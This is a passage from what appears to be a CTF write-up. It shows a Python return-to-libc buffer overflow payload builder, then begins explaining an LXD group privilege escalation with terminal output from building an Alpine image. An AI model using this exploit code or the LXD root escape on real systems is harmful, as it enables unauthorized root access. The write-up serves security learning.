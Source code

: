 ```
import struct

ret_address = struct.pack('<I',0xbffff540) #replace this with whatever is shown in the mapping

tmpbooj = "/tmp/booj.elf\x00\x00\x00"
execl = struct.pack("<L", 0xb7ecaa80)
exit = struct.pack("<L", 0xb7e489d0)

buf = b""
buf += tmpbooj.ljust(76, '\x90')
buf += execl
buf += exit
buf += ret_address
buf += struct.pack("<L", 0x0)
buf += struct.pack("<L", 0x0)

with open('tmpbuf','wb') as buffef:
	buffef.write(buf)
```

![](https://image.ibb.co/bQLZ1m/Untitled_picture.png)

LXD Bypass
==========
Or you could just bypass the above entirely and save yourself a week of buffer overflow pain.

![](https://image.ibb.co/kAqxHR/30.png)

Maybe there's something a little odd in that group listing?  Turns out lxd is installed!  

I've written about this [before](https://reboare.github.io/lxd/lxd-escape.html), as it's fundamentally as broken as adding someone to the [docker group](https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful).  This one's less known, but surprisingly common.  There goes some easy roots now it's out of the bag.

I'll reiterate how this works, LXD requires root level privileges to function, which is an unfortunate necessity.  Normally, as a result, a user needs sudo permissions to use it.  In the name of ease-of-use however, the lxd group lets a user run LXD with full privileges without having to use sudo constantly. 

All users who are members of the sudo group are made members of the lxd group upon install, so normally this isn't a major issue.  However, this group can be forgotten about in the case of a CTF or hardening an install.  In fact, it's incredibly common that this is overlooked.

We firstly need an image we can create and upload.  You could just grab one from [here](http://cloud-images.ubuntu.com/xenial/current/) but that's quite a hefty download.  Why am I even mentioning it you may ask?  Well I did that on my first try and just wanted to share the pain felt  of someone resetting the box 50MB in.

Let's avoid that and use the handy 4MB [alpine image](https://github.com/saghul/lxd-alpine-builder).  We need to build it with the appropriate architecture, i386.

```
root@kali:~/Downloads# git clone https://github.com/saghul/lxd-alpine-builder
Cloning into 'lxd-alpine-builder'...
remote: Counting objects: 23, done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 23
Unpacking objects: 100% (23/23), done.
root@kali:~/Downloads# cd lxd-alpine-builder/
root@kali:~/Downloads/lxd-alpine-builder# ./build.sh
bash: ./build.sh: No such file or directory
root@kali:~/Downloads/lxd-alpine-builder# ls
build-alpine  LICENSE  README.md
root@kali:~/Downloads/lxd-alpine-builder# ./build-alpine --arch=i386
Determining the latest release... v3.7
Using static apk from http://wiki.alpinelinux.org/cgi-bin/dl.cgi/v3.7/main/x86
```
